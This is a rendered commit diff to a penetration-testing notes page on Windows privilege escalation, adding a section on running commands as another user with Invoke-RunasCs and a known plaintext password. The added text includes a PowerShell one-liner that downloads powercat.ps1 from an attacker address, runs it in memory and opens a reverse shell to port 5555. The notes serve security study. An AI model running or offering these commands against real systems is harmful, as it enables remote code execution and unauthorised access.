

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/windows-privilege-escalation/escalating-privilege.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
GITBOOK-267: change request with no subject merged in GitBook

````diff
--- a/ethical-hacking/windows-privilege-escalation/escalating-privilege.md
+++ b/ethical-hacking/windows-privilege-escalation/escalating-privilege.md
@@ -132,3 +132,28 @@ Enter the password for backupadmin:
 Attempting to start cmd as user "CLIENTWK220\backupadmin" ...
 PS C:\Users\steve>
 ```
+
+
+
+
+
+## Invoke-Runas
+
+If we've gained access to a plaintext password, but don't have a full shell, we can use the [`Invoke-Runas`](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) command that's part of the[ `PowerShell-Suite`](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master). Here is an updated and new version.&#x20;
+
+{% embed url="https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1" %}
+
+```powershell
+PS> import-module ./Invoke-RunasCs.ps1
+PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
+```
+
+
+
+### Spawn reverse shell
+
+Powercat
+
+```powershell
+PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.49.211/powercat.ps1');powercat -c 192.168.49.211 -p 5555 -e cmd"
+```
````
